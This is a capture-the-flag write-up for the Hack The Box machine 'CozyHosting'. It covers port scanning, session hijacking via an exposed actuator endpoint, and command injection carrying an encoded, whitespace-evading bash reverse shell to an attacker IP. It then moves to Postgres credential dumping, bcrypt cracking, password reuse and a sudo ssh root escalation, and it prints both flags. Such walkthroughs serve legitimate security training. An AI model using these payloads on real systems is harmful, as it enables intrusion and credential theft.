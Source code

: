 # CozyHosting
> Write-up author: jon-brandy

## Lesson learned:
- Accessing postgres

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fa4c16d1-f3fe-47c6-810f-466d37c566a6)



## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.230 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 22:59 PDT
Nmap scan report for 10.10.11.230
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.72 seconds
```

1. Based from the nmap results, the machine runs a webapp and opens ssh logins.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd9b7161-dbf0-4b00-b073-ef80301da3e2)


2. The wappalyzer itself shows us minimum info (for version).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1850a964-0b31-4a53-961a-1beee364802c)


3. Hence i ran dirsearch to list all directories or files available for this webapp.

> RESULTS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5697fb2f-fb43-476f-8efc-705146d76b30)


4. `admin` page and `actuator` directory should be our interest here.
5. Opens `actuator/sessions` shall resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/617cbf55-e5f0-470d-a54c-53965f5817bb)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e95e9939-f036-4f73-af4a-6a7330e23f2c)


6. Noticed there's a user session with name `kanderson` (Informatin Disclosure).
7. Let's change our session to kanderson's, then refresh the page.

 ![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a7c8c241-4cfa-4d95-a058-7c0bdd8b7d4f)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fac50408-3393-41e8-8df3-b4d2f3cf9604)


8. Scrolling down you shall see an input box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dbbc52af-baf7-45d6-9dd8-036986c88b27)


9. This should be our interest. To identify what's the vuln, let's capture the request we send using burpsuite.
10. Let's just fill the hostname with our tun0 interface and leave username empty, we just want to know what response might the server give.

> IN BURPSUITE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c2035f5f-dcc6-41f9-9f08-2a892ecfe5ba)


11. Noticed the server responds an error for the ssh command.
12. This make it clear, that the vuln should be related to command injection.
13. The idea is using basic bash reverse shell payload:

> BASH REVERSE SHELL PAYLOAD

```txt
bash -i >& /dev/tcp/10.10.16.14/1337 0>&1
```

> ENCODE IT TO BASE64 (adding -w 0, to make sure the output is a single line command)

```
echo "bash -i >& /dev/tcp/10.10.16.14/1337 0>&1" | base64 -w 0
```

> RESULT

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK
```

14. Great! Now for the final payload, because we want the server to decode our payload first then execute it, hence we use `base64 -d`.
15. But again, we need to encode it again with `url-encode` to terminate all the spaces.
16. The best practice is to use --> `${IFS%??}` to avoid spaces or other characters that may be treated as delimiters by the shell.
17. Then we url-encode the payload, set listener and send our payload.

> PAYLOAD

```
Original one:

echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK" | base64 -d | bash;

Adding ${IFS%??} to covering whitespaces

;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

URL-ENCODE:

%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA%2BJjEK%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D%2Dd%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d7f115a-0819-4aa5-b627-3d54677ed0cd)


18. At this point we can't get user flag, because we're not having the shell as "josh".

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a925e28b-c55b-4833-b19a-99e927f38459)


19. Noticed there's a .jar file which might be our interest.
20. Let's setup a python server at the remote server and download the file to our local machine.

#### NOTES: setup python server at port other than 80.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b6709ea-e312-4421-8cce-40996c53d1df)


21. Well if you noticed, it failed to download it full.
22. Hmm, confused here, but anyway since we opens python server at port 8000, accessing the remote host with port 8000 shall shown this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0baf88f9-bf8d-49f3-8c81-5a60662244b9)


23. Let's download it manually.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b6b219f6-0f33-4010-bc31-003450d26de8)


> DECOMPILING IT WITH JD-GUI

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/017cf7f2-8d89-4797-b0fa-24d2f0c283dd)


24. Interesting, we found a **postgres** cred.
25. Let's access `psql` at the remote server.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/01837280-db9b-4d0b-a325-512bf643d3a7)


26. Run --> `\l` to list all the databases available.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8f630db5-1b44-4adc-89a3-759db0298432)


27. Great! Let's connect to `cozyhosting` --> run `\c cozyhosting`.
28. To dump all the tables run -> `\d`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/de6584c5-0f47-4752-8e01-a0880437bae1)


> DUMPING users column.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/18e97676-389a-4574-925f-665faf90e4ab)


29. Interesting, **users** table should be our interest. Let's select all from it.

> SELECT * FROM public.users;

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7df3bd4f-d4c7-4b02-bd63-8c6bce6324f6)


30 Awesome! Let's crack all the hashed password with john.
31. I started to cracking the first hash with john and while waiting for john to cracks hash, I identify the hash using `hashid`, which allows to use **hashcat**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10b7aec7-339c-4a98-8c7a-4f7d90adf1e5)


32. Because time is money 🙏🏼.

> GRABBING THE HASHCAT CODE FOR BCRYPT.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6ecb07c4-8c7c-415f-b4f2-14ab9e974068)


33. Found nothing for the kanderson's hash.
34. But succeed cracks the password for admin's hash.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/143e3bf4-794a-4bd8-871c-1b5ad173d2dd)


35. Hmm.. Remembering our remote /home dir is **josh**, we make an interpretes of potential **password reuse**.
36. Turns out it is.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b3c28583-d323-4156-be5d-19fbdb29790a)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/37046df1-18e2-47d6-9adb-ccdb4cfee70f)


## USER FLAG

```
83cfd0650592f468972d63e44761211a
```

37. Checking sudo permissions for **josh** resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60eef894-3c47-425b-9de4-d733ef3ed2a3)


38. **ssh** command is being run as root.
39. Diving on the internet and searching for `ssh gtfobins` exploit, shall resulting to this --> `https://gtfobins.github.io/gtfobins/ssh/`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e7a98b44-9fe7-4344-9aff-aead90826b51)


40. Using it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/210a6f59-891f-4023-b1ba-e2a94c56b808)


41. Successfully gained root!

> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0d16d0b5-aa7a-4bd6-a976-ad4d11d52176)


## ROOT FLAG

```
5783572fa5559507b67cfbd6636c934e
```





